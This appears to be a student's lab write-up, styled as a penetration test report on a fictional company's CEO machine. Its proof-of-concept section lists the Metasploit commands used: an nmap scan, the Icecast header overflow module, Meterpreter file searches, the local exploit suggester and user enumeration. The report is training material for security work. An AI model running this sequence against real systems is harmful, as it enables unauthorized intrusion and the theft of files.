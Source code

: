 ## Week 17: Metasploit

### Background

For this assignment I played the role of a penetration tester hired by the fictional company GoodCorp Inc. to perform security tests against the CEO's computer.

## GoodSecurity Penetration Test Report

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**
192.168.0.20

**Hostname:**
MSEDGEWIN10

**Vulnerability Exploited:**
Icecast Header Overwrite: exploit/windows/http/icecast_header

**Vulnerability Explanation:**
This is a buffer overflow attack which allows the attacker to execute code when too much data is entered into the header of icecast versions 2.0.1 and earlier.  Specifically, 32 HTTP headers must be sent to the remote host in order to overwrite saved instructions.  This vulnerability is exploited with the help of ExitThread to make icecast think the thread is still in use.

**Severity:**
This vulnerability is critical.  An attacker could access everything on the CEO’s machine including the system information.  Therefore, this vulnerability could have been exploited for reconnaissance purposes to gather information to perform a future attack.  Additionally, an attacker potentially could have found banking information for the CEO or the company, they could have accessed sensitive documents pertaining to the CEO which could have led to the theft of his identity, or the attacker may have uncovered proprietary information about their products which the company would not want in the hands of their competitors.  As the attacker had full access to the CEO’s machine, the possibilities are endless when it comes to the damage the attacker could cause.

**Proof of Concept:**
1. Ran nmap on the IP address to perform a service and version scan: 
   - nmap -sV 192.168.0.20

2. Found the Icecast service was running so I used SearchSploit to search for exploits: 
   - searchsploit icecast

3. Set up the exploit using Metasploit:
   - search icecast
   - use exploit/windows/http/icecast_header
   - set RHOSTS 192.168.0.20
   - exploit

4. Found files:
   - Found secretfile.txt : search -f *secret*
      ![secretfile](Images/Week_17/secretfile.png)
   - Found recipe.txt: search -f *recipe*
      ![recipe](Images/Week_17/recipe.png)

5. Used Meterpreter’s local exploit searcher to determine additional exploits: run post/multi/recon/local_exploit_suggester
  - Discovered the following exploits:
    - exploit/windows/local/ikeext_service
    - exploit/windows/local/ms16_075_relection
      ![local_exploit_suggester](Images/Week_17/local_exploit_suggester.png)

6. Enumerated all logged on users: run post/windows/gather/enum_logged_on_users
![enum_logged_on_users](Images/Week_17/enum_logged_on_users.png)

7. Opened a Meterpreter shell and determined system information:
   - shell
   - systeminfo
     ![systeminfo1](Images/Week_17/systeminfo1.png)
     ![systeminfo2](Images/Week_17/systeminfo2.png)

### 3.0 Recommendations

1. All software needs to be updated to the latest versions.
2. Password protect and/or encrypt files containing sensitive information.
3. Update firewall rules to only allow traffic on necessary ports.
4. Consider limiting the information company executives have access to as they are high profile targets.
